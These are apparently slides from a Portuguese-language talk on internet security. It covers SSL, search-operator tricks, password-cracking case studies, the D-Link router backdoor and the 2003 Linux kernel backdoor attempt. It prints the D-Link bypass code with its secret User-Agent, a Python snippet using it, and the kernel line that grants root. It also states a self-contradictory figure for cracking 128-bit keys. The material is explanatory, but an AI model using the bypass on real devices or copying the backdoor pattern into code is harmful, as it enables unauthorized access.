





Para acessar a internet com segurança usamos o protocolo SSL junto com o HTTP.

SSL é uma nova camada de protocolo que opera em cima do protocolo TCP.
Permite ambas as máquina, cliente e servidor, estabelecer uma conexão criptografada.
Entretanto isso é uma especificação, ou seja, alguém tem que implementar. Alguns órgãos que a implementam:
Exemplo de mesma implementação para problemas diferentes:
multiplicação de 2 números:
2 * 3
ou
2 + 2 + 2


Levaria um tempo significativamente maior que a idade do universo para quebrar uma chave de 128-bits.
Estima-se um pouco mais de 13 bilhões de anos.
Fonte:
Crackers são pessoas que invadem computadores com propósitos criminais ou ganho pessoal.
Enquanto Hackers podem ser especialistas em segurança contratados por empresas, com o objetivo de encontrar possíveis vulnerabilidades e saná-las.
Hackear é uma coisa boa! Alguns sites permitem que isso seja feito de forma a otimizar processos, como fazer uma busca. Vejamos um exemplo com o Google quando fazemos a seguinte busca:
comsolid filetype:pdf
Além de buscar a palavra comsolid, ele busca apenas arquivos pdf.
Ou ainda podemos fazer buscas em determinados sites somente. Basta fazer uma busca na forma:
inkscape site:comsolid.org
Essa busca pesquisa a palavra inkscape no site comsolid.org
Duck Duck Go é um motor de busca preocupado com a pesquisa em si e sua privacidade.
Possui parte de seu código livre, isso inclui plugins, add-ons, etc. Página do github:
Duck Duck Go permite hacks mais engenhosos. Vamos a eles:
Temos ainda o http://duckduckhack.com/

A técnica mais conhecida e natural é a força bruta, ou seja, tentar todas as combinações possíveis até encontrar. Isso funciona até certo ponto, quando a entrada é pequena.
Num artigo escrito por Dan Goodin no site http://arstechnica.com em que descreve como Kevin Young, um pesquisador de segurança de senhas, procedeu para descriptografar senhas vazadas pelo Antisec de uma empresa chamada Stratfor.
Após quebrar 60% das senhas usando listas de senhas disponíveis em:
Para os outros 40% ele ficou "sem palavras", então onde encontrá-las?
Que tal Wikipedia, Youtube, Bíblia, Projeto Gutenberg?
Uma das senhas era "crotalus atrox", nome científico de uma cobra. Tal senha foi quebrada graças a esta página da Wikipedia: https://en.wikipedia.org/wiki/Crotalus_atrox
Em seguida outras senhas fortes por serem grandes foram encontradas como:
Em Junho de 2012 um usuário anônimo postou no site http://insidepro.com/ uma lista com 6.5 milhões de hashs únicos referentes a senhas pedindo ajuda para recuperá-las.
Após quebrar muitas das senhas descobriu-se que se tratava de um banco de senhas do site Linkedin. Essa descoberta foi possível pelo número de senhas com a palavra linkedin.
Na lista existiam:
Outras senhas encontradas:
Mais informações em: http://www.ma.rhul.ac.uk/static/techrep/2013/MA-2013-07.pdf
Todos sabemos que a D-Link é especializada em fazer roteadores, e eles são um bom local para backdoors. E isso foi exatamente que Craig Heffner autor no blog http://www.devttys0.com encontrou.
Ele encontrou a partir de uma engenharia reversa no firmware de uma dos roteadores.
Após notar que certa função chamada alpha_auth_check soava suspeita, ele foi
saber o que exatamente ela fazia. Após um tempo ele chegou no seguinte trecho de
código:
int alpha_auth_check(struct http_request_t *request) {
if(strstr(request->url, "graphic/") ||
strstr(request->url, "public/") ||
strcmp(request->user_agent,
"xmlset_roodkcableoj28840ybtide") == 0) {
return AUTH_OK;
} else {
if(check_login(request->0xC, request->0xE0) != 0) {
return AUTH_OK;
}
}
return AUTH_FAIL;
}
Baseado no código fonte das páginas HTML e outros detalhes é sensato concluir que os seguintes modelos são afetados:
Quem quiser fazer um teste real existe um código em Python escrito pelo próprio Craig e pode ser encontrado em:
# Normally only admins can access the tools_misc.xgi page;
# use the backdoor user-agent to bypass authentication
import urllib2
# ...
req = urllib2.Request(url+buf,
headers={
'User-Agent': 'xmlset_roodkcableoj28840ybtide'
})
urllib2.urlopen(req)
http://linux.slashdot.org/story/13/10/09/1551240/the-linux-backdoor-attempt-of-2003
Em 2003, houve uma tentativa de backdoor no Kernel do Linux.
/* ... */
if ((options == (__WCLONE|__WALL))
&& (current->uid = 0))
retval = -EINVAL;
/* ... */
Bastava chamar a função wait4 e você viraria root.
Comparemos os códigos original e o backdoor, e vejam se encontram a diferença.
/* ... */
if ((options == (__WCLONE|__WALL))
&& (current->uid = 0))
retval = -EINVAL;
/* ... */
/* ... */
if ((options == (__WCLONE|__WALL))
&& (current->uid == 0))
retval = -EINVAL;
/* ... */
O que é Marco Civil?
É um projeto de Lei que visa estabelecer direitos e deveres na utilização da Internet no Brasil. É a constituição da Internet no país.
Para mais detalhes: http://www.molon1313.com.br/marco-civil-da-internet/
Você pode baixar essa palestra e ainda outras
Qualquer dúvida entre em contato.